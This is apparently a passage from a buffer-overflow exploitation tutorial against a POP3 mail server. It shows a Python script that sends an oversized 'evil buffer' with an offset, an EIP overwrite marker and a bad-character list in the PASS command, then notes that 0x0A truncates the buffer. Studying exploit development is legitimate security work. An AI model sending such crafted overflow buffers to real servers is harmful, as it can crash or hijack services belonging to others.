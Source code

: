 ```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer="A"*2606 + "B"*4 + badchars

try:
  print "\nSending evil buffer..."
  s.connect(('10.0.0.22',110))
  data = s.recv(1024)
  s.send('USER username' +'\r\n')
  data  = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  s.close()
  print "\nDone!"
except:
  print "Could not connect to POP3!"
```

- The resulting memory dump for the ESP register shows that the character 0x0A seems to have truncated the rest of the buffer that comes after it.

![The Buffer is Truncated](./../images/38.png)

- We remove the \x0A character from our list, and resend the payload. Looking at the resulting buffer, in memory, we see the following output, in the debugger
